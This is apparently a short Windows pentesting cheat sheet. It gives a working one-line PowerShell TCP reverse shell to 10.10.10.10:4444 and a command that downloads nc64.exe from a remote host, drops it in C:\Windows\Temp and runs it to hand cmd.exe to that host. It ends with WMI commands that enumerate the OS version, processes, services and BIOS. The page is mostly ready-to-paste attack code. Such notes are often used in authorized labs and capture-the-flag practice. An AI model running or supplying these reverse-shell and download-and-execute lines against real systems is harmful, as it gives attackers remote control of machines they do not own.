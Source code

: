 ```yaml
---
description: fundamentals
---
```


# 🪟 Windows

## Reverse shell (nishang)

* one line tcp powershell

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

* Netcat way

```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.16.69:8000/nc64.exe','C:\Windows\Temp\nc64.exe');Start-Process -FilePath 'C:\Windows\Temp\nc64.exe' -ArgumentList '10.10.16.69','4444','-e','cmd.exe' -NoNewWindow
```

## Get-WmiObject

*   Find os version and build version

    ```bash
    Get-WmiObject -Class win32_OperatingSystem | select Version,BuildNumber
    ```
* &#x20;`Win32_Process` to get a process listing, `Win32_Service` to get a listing of services, and `Win32_Bios` to get `BIOS` information





